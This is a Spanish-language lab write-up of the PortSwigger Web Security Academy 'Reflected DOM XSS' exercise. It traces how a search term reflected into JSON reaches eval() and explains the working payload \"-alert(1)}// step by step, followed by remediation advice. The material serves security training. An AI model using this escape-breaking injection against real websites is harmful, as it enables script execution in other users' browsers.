


# Lab 45 — Reflected DOM XSS

**PortSwigger Web Security Academy**  
**Categoría:** Cross-site scripting / DOM-based XSS  
**URL del laboratorio:** `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected`  
**Nombre del laboratorio:** Reflected DOM XSS

---

## 1. Objetivo del laboratorio

Este laboratorio demuestra una vulnerabilidad de **Reflected DOM XSS**.

La aplicación recibe un parámetro de búsqueda enviado por el usuario, lo procesa en el servidor, lo refleja dentro de una respuesta JSON y después el navegador procesa esa respuesta con JavaScript de forma insegura.

El objetivo es construir una inyección que consiga ejecutar:

```javascript
alert(1)
```

El payload final usado en el laboratorio es:

```text
\"-alert(1)}//
```

Es decir, una barra invertida, una comilla doble, un operador de resta, la llamada a `alert(1)`, una llave de cierre y un comentario JavaScript.

---

## 2. Imágenes del laboratorio

Las imágenes usadas en esta documentación están guardadas dentro de la carpeta `images/`.


**Imagen 1 — Página inicial del laboratorio.**  
Se observa el blog de PortSwigger con el título **Reflected DOM XSS**, el buscador vulnerable y el estado del laboratorio todavía como `Not solved`.



**Imagen 2 — Ejecución de `alert(1)`.**  
Tras introducir el payload en el buscador, el navegador ejecuta JavaScript y aparece el popup con el valor `1`.



**Imagen 3 — Laboratorio resuelto.**  
El laboratorio queda marcado como `Solved`. También se ve el mensaje `0 search results for 'NaN'`, que tiene una explicación técnica importante y se detalla más adelante.

---

## 3. Qué tipo de XSS es este laboratorio

Este laboratorio no es un XSS reflejado clásico y tampoco es un DOM XSS puro en el sentido más simple.

Es un **Reflected DOM XSS**.

Eso significa que intervienen dos partes:

1. **El servidor refleja datos controlados por el usuario.**
2. **El JavaScript del navegador procesa esos datos reflejados de manera insegura.**

La diferencia es importante.

En un XSS reflejado clásico, el servidor normalmente devuelve directamente HTML vulnerable, por ejemplo:

```html
<h1>Resultados para <script>alert(1)</script></h1>
```

En un DOM XSS puro, el servidor no necesita reflejar nada especial. El navegador lee directamente algo como `location.search`, `location.hash` o `document.referrer` y lo mete en un sink peligroso como `innerHTML`, `document.write` o `eval`.

En este laboratorio ocurre una mezcla:

```text
Input del usuario
   ↓
Servidor lo recibe
   ↓
Servidor lo refleja dentro de una respuesta JSON
   ↓
JavaScript del navegador recibe ese JSON
   ↓
El navegador usa eval() sobre la respuesta
   ↓
El payload se ejecuta
```

Por eso se llama **Reflected DOM XSS**:

- **Reflected**, porque el dato vuelve reflejado desde el servidor.
- **DOM**, porque la ejecución peligrosa ocurre en el navegador, dentro del JavaScript del lado cliente.

---

## 4. Idea principal del laboratorio

La idea central del lab es esta:

> El servidor devuelve JSON aparentemente seguro, pero el frontend lo procesa con `eval()`. Si conseguimos romper la estructura del JSON, conseguimos ejecutar JavaScript.

La aplicación hace una búsqueda. Si buscas algo normal como:

```text
pepe1
```

el navegador termina mostrando:

```text
0 search results for 'pepe1'
```

Pero por detrás hay una petición adicional a un endpoint de resultados de búsqueda. Ese endpoint devuelve algo parecido a:

```json
{
  "searchTerm": "pepe1",
  "results": []
}
```

Ese JSON después es procesado por JavaScript. El problema es que no se procesa con `JSON.parse()`, que sería la forma segura. Se procesa con `eval()`.

Y `eval()` no parsea simplemente datos: **ejecuta código JavaScript**.

---

## 5. Diferencia entre JSON.parse() y eval()

Este punto es fundamental.

### 5.1. JSON.parse()

`JSON.parse()` interpreta una cadena como JSON estricto.

Ejemplo:

```javascript
var obj = JSON.parse('{"searchTerm":"pepe1","results":[]}');
```

Esto convierte el texto JSON en un objeto JavaScript:

```javascript
{
  searchTerm: "pepe1",
  results: []
}
```

Pero `JSON.parse()` no ejecuta expresiones JavaScript.

Si intentas parsear algo que no es JSON válido, falla.

Por ejemplo:

```javascript
JSON.parse('{"searchTerm":"test"-alert(1)}')
```

Eso no ejecutaría `alert(1)`. Simplemente lanzaría un error porque no es JSON válido.

### 5.2. eval()

`eval()` es distinto.

`eval()` recibe una cadena y la ejecuta como JavaScript.

Ejemplo:

```javascript
eval('alert(1)');
```

Eso ejecuta directamente:

```javascript
alert(1)
```

Por eso `eval()` es extremadamente peligroso con datos controlados por el usuario.

En este laboratorio, el código vulnerable hace algo equivalente a:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Si `this.responseText` es un JSON normal, todo parece funcionar.

Pero si conseguimos que `this.responseText` contenga una estructura que rompa el JSON y añada JavaScript válido, `eval()` lo ejecutará.

---

## 6. Reconocimiento inicial de la página

Al iniciar el laboratorio, se abre una página de blog con un buscador.

La URL del laboratorio concreto usado en la práctica era:

```text
https://0a5f005503f9418180b7038e007b0071.web-security-academy.net/
```

La página tiene este aspecto:


En esta primera fase no se ve nada raro a simple vista. Hay un buscador normal, posts del blog y el estado del laboratorio aparece como `Not solved`.

Como el enunciado indica que la vulnerabilidad está relacionada con búsquedas, el primer paso lógico es introducir una cadena aleatoria para observar cómo se comporta la aplicación.

Usamos:

```text
pepe1
```

La página responde mostrando:

```text
0 search results for 'pepe1'
```

Esto ya nos dice algo importante: el input está entrando en la aplicación y vuelve reflejado en algún punto.

Pero todavía no sabemos si el XSS está en ese HTML visible, en algún script externo, en una respuesta AJAX o en otro sink.

---

## 7. Inspección del DOM tras una búsqueda normal

Después de buscar `pepe1`, inspeccionamos el DOM y vemos algo como esto:

```html
<div class="container is-page">
    <header class="navigation-header">
        <section class="top-links">
            <a href="/">Home</a><p>|</p>
        </section>
    </header>
    <header class="notification-header">
    </header>
    <script src="/resources/js/searchResults.js"></script>
    <script>search('search-results')</script>
    <section class="blog-header">
        <h1>0 search results for 'pepe1'</h1>
        <hr>
    </section>
    <section class="search">
        <form action="/" method="GET">
            <input type="text" placeholder="Search the blog..." name="search">
            <button type="submit" class="button">Search</button>
        </form>
    </section>
    <section class="blog-list">
        <div class="is-linkback">
            <a href="/">Back to Blog</a>
        </div>
    </section>
</div>
```

A primera vista puede parecer que la vulnerabilidad está aquí:

```html
<h1>0 search results for 'pepe1'</h1>
```

Pero no es ahí donde está la parte interesante.

La pista importante es esta:

```html
<script src="/resources/js/searchResults.js"></script>
<script>search('search-results')</script>
```

Esto significa que la página carga un archivo JavaScript externo:

```text
/resources/js/searchResults.js
```

Y luego ejecuta una función:

```javascript
search('search-results')
```

Esto sugiere que la búsqueda no solo se renderiza en HTML, sino que también se procesa mediante JavaScript del lado cliente.

Esa función probablemente hace una petición AJAX a un endpoint llamado `search-results`.

---

## 8. Localización del archivo JavaScript vulnerable

Abrimos directamente el archivo JavaScript en el navegador:

```text
https://0a5f005503f9418180b7038e007b0071.web-security-academy.net/resources/js/searchResults.js
```

El contenido es:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0;i < searchResults.length;++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

La línea vulnerable es clarísima:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

---

## 9. Análisis línea por línea del código vulnerable

### 9.1. Creación del objeto XMLHttpRequest

```javascript
var xhr = new XMLHttpRequest();
```

Esto crea una petición HTTP desde el navegador. Es una forma clásica de hacer AJAX.

La página no recarga completamente; JavaScript pide datos al servidor y luego actualiza el DOM.

### 9.2. Callback cuando cambia el estado de la petición

```javascript
xhr.onreadystatechange = function() {
```

Esta función se ejecuta cada vez que cambia el estado de la petición.

### 9.3. Comprobación de respuesta completada

```javascript
if (this.readyState == 4 && this.status == 200) {
```

`readyState == 4` significa que la petición terminó.

`status == 200` significa que el servidor respondió correctamente.

### 9.4. La línea peligrosa

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Aquí está el problema real.

`this.responseText` contiene la respuesta del servidor.

Si buscamos `pepe1`, probablemente la respuesta sea algo como:

```json
{"searchTerm":"pepe1","results":[]}
```

Entonces el `eval()` ejecuta:

```javascript
var searchResultsObj = {"searchTerm":"pepe1","results":[]}
```

Eso crea un objeto JavaScript.

El desarrollador probablemente hizo esto porque quería convertir JSON en un objeto JavaScript.

Pero lo hizo mal.

La forma segura sería:

```javascript
var searchResultsObj = JSON.parse(this.responseText);
```

Con `eval()`, si la respuesta contiene algo que no sea simplemente JSON, también se puede ejecutar como JavaScript.

### 9.5. Renderizado posterior con innerText

Después aparece:

```javascript
displaySearchResults(searchResultsObj);
```

Y dentro de esa función:

```javascript
h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
```

Esto es importante: `innerText` no interpreta HTML.

Por tanto, el XSS no ocurre por `innerText`.

Si el payload llega hasta aquí como texto, no debería ejecutarse como HTML.

El XSS ocurre antes, en el `eval()`.

---

## 10. Source, reflected data y sink

En este laboratorio podemos identificar claramente las piezas del flujo vulnerable.

### 10.1. Source

El source inicial es:

```javascript
window.location.search
```

Se usa aquí:

```javascript
xhr.open("GET", path + window.location.search);
```

Si estamos en:

```text
/?search=pepe1
```

entonces:

```javascript
window.location.search
```

vale:

```text
?search=pepe1
```

La función acaba haciendo una petición a:

```text
/search-results?search=pepe1
```

### 10.2. Reflejo en respuesta del servidor

El servidor responde con JSON que contiene el término de búsqueda.

Ejemplo:

```json
{"searchTerm":"pepe1","results":[]}
```

Aquí está la parte reflected.

Tu input vuelve reflejado, pero no directamente en HTML, sino dentro de una respuesta JSON.

### 10.3. Sink

El sink peligroso es:

```javascript
eval(...)
```

Concretamente:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Este sink convierte una respuesta de texto en código JavaScript ejecutable.

---

## 11. Por qué el payload típico de HTML no es el camino principal

En otros labs de XSS podrías probar:

```html

```

O:

```html
<script>alert(1)</script>
```

Pero aquí no estamos atacando un contexto HTML clásico.

El payload entra en JSON y luego ese JSON se evalúa como JavaScript.

Por eso el enfoque correcto no es “inyectar una etiqueta HTML”, sino “romper una cadena dentro de una estructura JavaScript/JSON ejecutada por eval”.

La estructura vulnerable es parecida a:

```javascript
var searchResultsObj = {"searchTerm":"TU_INPUT","results":[]}
```

Nuestro objetivo es salir del valor de `searchTerm` y ejecutar código JavaScript.

---

## 12. Qué hace el servidor con las comillas

Si enviamos una comilla doble:

```text
"
```

el servidor intenta proteger el JSON escapándola.

En JSON, una comilla dentro de un string debe escaparse como:

```text
\"
```

Por ejemplo:

```json
{"searchTerm":"pepe\"test","results":[]}
```

Eso representa el texto:

```text
pepe"test
```

La comilla no cierra el string porque está escapada.

Hasta aquí parece correcto.

El problema es que el servidor escapa la comilla, pero no escapa correctamente la barra invertida `\` que el usuario puede enviar.

---

## 13. Por qué la barra invertida es tan importante

En JavaScript y JSON, la barra invertida tiene un papel especial: introduce secuencias de escape.

Ejemplos:

```javascript
"hola\"mundo"
```

Aquí `\"` representa una comilla literal dentro del string.

```javascript
"hola\\mundo"
```

Aquí `\\` representa una barra invertida literal.

Esto significa que el número de barras invertidas importa muchísimo.

### 13.1. Una barra antes de comilla

```javascript
\"
```

La comilla queda escapada. No cierra el string.

### 13.2. Dos barras antes de comilla

```javascript
\\"
```

Las dos barras se interpretan como una barra literal, y la comilla siguiente queda libre para cerrar el string.

Este es el truco del laboratorio.

El servidor añade una barra para escapar la comilla, pero si nosotros ya hemos metido una barra antes, el resultado se convierte en dos barras antes de la comilla.

Y dos barras no escapan la comilla: representan una barra literal.

---

## 14. Payload final

El payload usado es:

```text
\"-alert(1)}//
```

Desglosado:

```text
\"        rompe el escaping y cierra el string
-alert(1) ejecuta alert(1) como parte de una expresión JavaScript
}         cierra el objeto JavaScript antes de tiempo
//        comenta el resto de la respuesta para evitar errores de sintaxis
```

---

## 15. Qué ocurre exactamente con el payload

Supongamos que el servidor construye una respuesta como esta:

```json
{"searchTerm":"TU_INPUT","results":[]}
```

Ahora introducimos:

```text
\"-alert(1)}//
```

El servidor intenta escapar la comilla doble del payload.

La respuesta final acaba siendo conceptualmente parecida a:

```javascript
{"searchTerm":"\\"-alert(1)}//","results":[]}
```

Cuando esta respuesta llega al navegador, el código vulnerable hace:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Es decir, el navegador evalúa algo parecido a:

```javascript
var searchResultsObj = {"searchTerm":"\\"-alert(1)}//","results":[]}
```

Ahora viene el parsing importante.

### 15.1. La parte `"\\"`

Dentro del string:

```javascript
"\\"
```

`\\` se interpreta como una barra invertida literal.

Después llega la comilla `"`, que ya no está escapada por una barra activa, porque las dos barras anteriores se consumieron entre ellas.

Por tanto, esa comilla cierra el string.

### 15.2. La parte `-alert(1)`

Después de cerrar el string, JavaScript encuentra:

```javascript
-alert(1)
```

Eso es código JavaScript válido.

El operador `-` intenta hacer una resta, pero antes necesita evaluar el operando derecho.

Para evaluar el operando derecho, ejecuta:

```javascript
alert(1)
```

Así aparece el popup.

### 15.3. La llave `}`

Luego el payload incluye:

```javascript
}
```

Esto cierra el objeto JavaScript antes de tiempo.

### 15.4. El comentario `//`

Después viene:

```javascript
//
```

Esto comenta el resto de la línea.

Es necesario porque todavía quedaría parte del JSON original, algo como:

```javascript
","results":[]}
```

Si no comentamos eso, JavaScript podría lanzar un error de sintaxis.

Con `//`, todo lo que queda a la derecha se ignora.

---

## 16. Por qué se usa el operador `-`

El payload usa:

```javascript
-alert(1)
```

No es obligatorio que sea exactamente `-`, pero se usa porque permite construir una expresión JavaScript válida.

Después de cerrar el string, queremos que el código siga siendo sintácticamente aceptable.

Ejemplo conceptual:

```javascript
"texto" - alert(1)
```

JavaScript intenta restar el resultado de `alert(1)` a un string.

La operación matemática final no importa.

Lo importante es que `alert(1)` se ejecuta.

También podrían existir otras variantes usando operadores como:

```javascript
* alert(1)
/ alert(1)
+ alert(1)
```

Pero hay que tener cuidado, porque no todos producen el mismo resultado sintáctico dependiendo del contexto exacto.

El payload del lab usa `-` porque encaja bien en la expresión generada.

---

## 17. Por qué aparece `NaN` en pantalla

Después de ejecutar el payload, la página muestra:

```text
0 search results for 'NaN'
```

Esto no es un fallo raro. Es una consecuencia normal de cómo se evalúa la expresión.

El objeto resultante acaba teniendo algo parecido a:

```javascript
searchTerm: "\\" - alert(1)
```

La parte importante es:

```javascript
"\\" - alert(1)
```

Paso a paso:

1. `"\\"` es un string que contiene una barra invertida.
2. `alert(1)` se ejecuta y muestra el popup.
3. `alert(1)` devuelve `undefined`.
4. JavaScript intenta hacer una resta entre un string no numérico y `undefined`.

Algo equivalente a:

```javascript
"\\" - undefined
```

Eso no puede convertirse en un número válido.

El resultado es:

```javascript
NaN
```

`NaN` significa:

```text
Not a Number
```

Luego el código hace:

```javascript
var searchTerm = searchResultsObj.searchTerm;
```

Y más tarde:

```javascript
h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
```

Como `searchTerm` vale `NaN`, se muestra:

```text
0 search results for 'NaN'
```

Esto confirma que:

- `alert(1)` se ejecutó como efecto secundario.
- La expresión completa produjo `NaN`.
- Ese `NaN` terminó guardado como `searchTerm`.

---

## 18. Práctica: explotación paso a paso

### 18.1. Abrir el laboratorio

Abrimos el laboratorio y vemos la página inicial.


### 18.2. Probar una búsqueda normal

Buscamos:

```text
pepe1
```

La página muestra:

```text
0 search results for 'pepe1'
```

Esto confirma que el input se refleja.

### 18.3. Revisar el DOM

Inspeccionamos la página y vemos:

```html
<script src="/resources/js/searchResults.js"></script>
<script>search('search-results')</script>
```

Esto nos indica que la lógica de búsqueda real está en un archivo JavaScript externo.

### 18.4. Abrir `searchResults.js`

Abrimos:

```text
/resources/js/searchResults.js
```

Encontramos la línea vulnerable:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Esto confirma que el sink peligroso es `eval()`.

### 18.5. Introducir el payload

En el buscador introducimos:

```text
\"-alert(1)}//
```

Dependiendo del navegador, en la URL se verá URL-encoded.

La idea es que la búsqueda envía el payload al servidor, el servidor lo refleja dentro de JSON y el JavaScript del frontend lo ejecuta con `eval()`.

### 18.6. Resultado

Aparece el popup:


Y el laboratorio queda resuelto:


---

## 19. Cómo queda conceptualmente la explotación

El flujo completo sería:

```text
1. Usuario introduce: \"-alert(1)}//
2. Navegador solicita: /?search=\"-alert(1)}//
3. searchResults.js hace AJAX a: /search-results?search=\"-alert(1)}//
4. Servidor responde con JSON que contiene el payload reflejado.
5. El frontend ejecuta: eval('var searchResultsObj = ' + responseText)
6. El payload rompe el string JSON.
7. Se ejecuta alert(1).
8. El resto de la respuesta queda comentado con //.
9. El lab queda resuelto.
```

---

## 20. Por qué esto no es simplemente “un JSON mal formado”

Un punto importante: si el frontend usara `JSON.parse()`, el payload probablemente solo provocaría un error de parseo.

Pero como usa `eval()`, el JSON no se trata estrictamente como datos. Se trata como código JavaScript.

Esto es lo que convierte un problema de escaping en ejecución real de JavaScript.

El error no es únicamente que el servidor escape mal. El error grave es combinar:

```text
JSON reflejado + escaping incompleto + eval()
```

Cada parte por separado ya es delicada, pero juntas producen XSS.

---

## 21. Diferencia entre Reflected XSS clásico y Reflected DOM XSS

### 21.1. Reflected XSS clásico

En un reflected XSS clásico, el servidor devuelve directamente HTML vulnerable.

Ejemplo:

```html
<h1>Resultados para </h1>
```

El navegador interpreta ese HTML y se ejecuta el evento.

### 21.2. Reflected DOM XSS

En este lab, el servidor devuelve datos reflejados, pero el HTML final vulnerable se produce porque el JavaScript del navegador procesa esos datos mal.

Aquí el servidor devuelve JSON.

El navegador hace:

```javascript
eval(responseText)
```

Por eso el XSS ocurre en el DOM/client-side.

### 21.3. Diferencia esencial

```text
Reflected XSS clásico:
input → servidor → HTML vulnerable → ejecución

Reflected DOM XSS:
input → servidor → datos reflejados → JavaScript cliente vulnerable → ejecución
```

---

## 22. Por qué el reflejo en `<h1>` no es la vulnerabilidad principal

En el DOM vemos:

```html
<h1>0 search results for 'pepe1'</h1>
```

Podríamos pensar que ese punto es el problema.

Pero más adelante el propio script usa:

```javascript
h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
```

`innerText` es relativamente seguro para este caso porque no interpreta HTML.

Si `searchTerm` fuera:

```html

```

`innerText` lo mostraría como texto, no como una imagen ejecutable.

La vulnerabilidad ocurre antes, en:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Este es un detalle importante porque evita confundir el síntoma visible con el sink real.

---

## 23. Qué son source y sink en este laboratorio

En DOM XSS se habla mucho de sources y sinks.

### 23.1. Source

Un source es una entrada controlable por el usuario.

En este caso:

```javascript
window.location.search
```

El usuario controla el parámetro:

```text
?search=...
```

### 23.2. Sink

Un sink es una función o API donde si llega input no confiable puede producir ejecución.

En este caso:

```javascript
eval()
```

### 23.3. Cadena completa

```text
window.location.search
   ↓
xhr.open("GET", path + window.location.search)
   ↓
/search-results?search=payload
   ↓
responseText con payload reflejado
   ↓
eval('var searchResultsObj = ' + responseText)
   ↓
XSS
```

---

## 24. Por qué `eval()` es un sink crítico

`eval()` debe considerarse peligroso siempre que reciba datos que puedan estar influidos por el usuario.

Ejemplos peligrosos:

```javascript
eval(userInput)
```

```javascript
eval('var obj = ' + responseText)
```

```javascript
setTimeout(userInput, 1000)
```

```javascript
new Function(userInput)()
```

Todas estas APIs pueden convertir texto en código.

En este laboratorio, `eval()` se usa como un parser casero de JSON.

Eso es un error clásico.

---

## 25. Cómo se debería corregir

### 25.1. Sustituir eval por JSON.parse

El cambio principal sería:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

Por:

```javascript
var searchResultsObj = JSON.parse(this.responseText);
```

Esto evita ejecutar código arbitrario.

### 25.2. Escapar correctamente en el servidor

El servidor también debe serializar JSON usando una librería segura.

No se debe construir JSON concatenando strings manualmente.

Malo:

```javascript
'{"searchTerm":"' + userInput + '","results":[]}'
```

Bueno:

```javascript
JSON.stringify({
  searchTerm: userInput,
  results: []
})
```

La serialización correcta escapa comillas, barras invertidas, caracteres de control y demás elementos peligrosos.

### 25.3. No confiar en escaping parcial

Escapar solo `"` no basta.

También hay que escapar:

```text
\
"
caracteres de control
saltos de línea
secuencias unicode peligrosas según contexto
```

Pero incluso con escaping correcto, la recomendación sigue siendo no usar `eval()`.

### 25.4. Usar Content Security Policy

Una CSP estricta puede reducir el impacto de algunos XSS.

Pero no debe ser la defensa principal.

Una CSP que bloquee `unsafe-eval` ayudaría contra este caso, porque `eval()` quedaría bloqueado.

Ejemplo conceptual:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Y especialmente evitar:

```http
script-src 'unsafe-eval'
```

Si la política permite `unsafe-eval`, este tipo de patrón sigue siendo peligroso.

---

## 26. Lecciones importantes del laboratorio

Este laboratorio enseña varias cosas de mucho valor:

1. No todo XSS se explota inyectando etiquetas HTML.
2. JSON reflejado puede ser peligroso si se evalúa como JavaScript.
3. `eval()` no debe usarse para parsear JSON.
4. Escapar comillas no basta si no se escapan barras invertidas.
5. El backslash puede neutralizar el escape añadido por el servidor.
6. `innerText` puede ser seguro, pero si el dato ya se ejecutó antes, da igual.
7. El sink real puede estar en un archivo JavaScript externo, no necesariamente en el HTML visible.
8. Reflected DOM XSS combina reflejo del servidor y ejecución insegura en cliente.

---

## 27. Resumen técnico final

La vulnerabilidad está en:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

El servidor devuelve algo parecido a:

```json
{"searchTerm":"INPUT","results":[]}
```

El payload:

```text
\"-alert(1)}//
```

consigue transformar la respuesta en una expresión JavaScript ejecutable.

El efecto final es:

```javascript
searchTerm = "\\" - alert(1)
```

`alert(1)` se ejecuta, devuelve `undefined`, la resta produce `NaN`, y por eso la página acaba mostrando:

```text
0 search results for 'NaN'
```

El laboratorio se resuelve porque se ha invocado correctamente la función:

```javascript
alert(1)
```

---

## 28. Payload final

Payload en crudo:

```text
\"-alert(1)}//
```

Payload URL-encoded aproximado:

```text
%5C%22-alert(1)}//
```

En navegador puede verse con distintas codificaciones dependiendo de cómo se introduzca desde el buscador.

---

## 29. Conclusión

Este lab es especialmente bueno porque obliga a dejar de pensar en XSS como “meter `<script>`”. Aquí el ataque ocurre en una capa distinta: una respuesta JSON reflejada que el cliente procesa con `eval()`.

El punto clave es entender el orden:

```text
1. El usuario controla search.
2. El servidor refleja search dentro de JSON.
3. El frontend recibe ese JSON.
4. El frontend usa eval().
5. El payload rompe el string.
6. JavaScript ejecuta alert(1).
```

La frase que resume el laboratorio es:

> Si evalúas como código una respuesta que contiene datos del usuario, cualquier fallo de escaping puede convertirse en ejecución JavaScript.

